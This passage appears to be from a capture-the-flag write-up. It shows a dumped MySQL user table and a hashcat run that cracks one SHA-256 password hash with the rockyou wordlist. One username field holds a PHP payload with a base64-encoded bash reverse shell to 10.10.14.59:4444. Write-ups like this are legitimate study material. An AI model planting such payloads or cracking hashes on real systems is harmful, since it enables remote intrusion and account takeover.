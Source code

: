```sql
| admin         | admin                                                                                          | ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82 | Admin | 999999999999999999 | 999999999 |
| ButtonLover99 | ButtonLover99                                                                                  | 55d1d58e17361fe78a61a96847b0e0226a0bc1a4e38a7b167c10b5cf513ca81f | User  |           10000000 |       100 |
| eric          | <?php `echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK|base64 -d|bash`;?> | 6f9edcd3408cbda14a837e6a44fc5b7f64ccc9a2477c1498fcb13c777ffb9605 | Admin |           20000000 |  30000000 |
| Paol          | Paol                                                                                           | bff439c136463a07dac48e50b31a322a4538d1fac26bfb5fd3c48f57a17dabd3 | User  |            2776354 |        75 |
| Th3Br0        | Th3Br0                                                                                         | 3185684ff9fd84f65a6c3037c3214ff4ebdd0e205b6acea97136d23407940c01 | User  |           87947322 |         1 |
+---------------+------------------------------------------------------------------------------------------------+------------------------------------------------------------------+-------+--------------------+-----------+
5 rows in set (0.00 sec)
```

I had password hashes for a few users. I saved them to a file and tried to crack them.

```bash
$ hashcat -a0 hash.txt /usr/share/seclists/rockyou.txt --username -m 1400
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 2865/5794 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 5 digests; 5 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Dictionary cache hit:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

6f9edcd3408cbda14a837e6a44fc5b7f64ccc9a2477c1498fcb13c777ffb9605:eric
Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: hash.txt
Time.Started.....: Sat Nov 11 17:28:09 2023 (4 secs)
Time.Estimated...: Sat Nov 11 17:28:13 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3953.7 kH/s (0.30ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/5 (20.00%) Digests (total), 1/5 (20.00%) Digests (new)
```
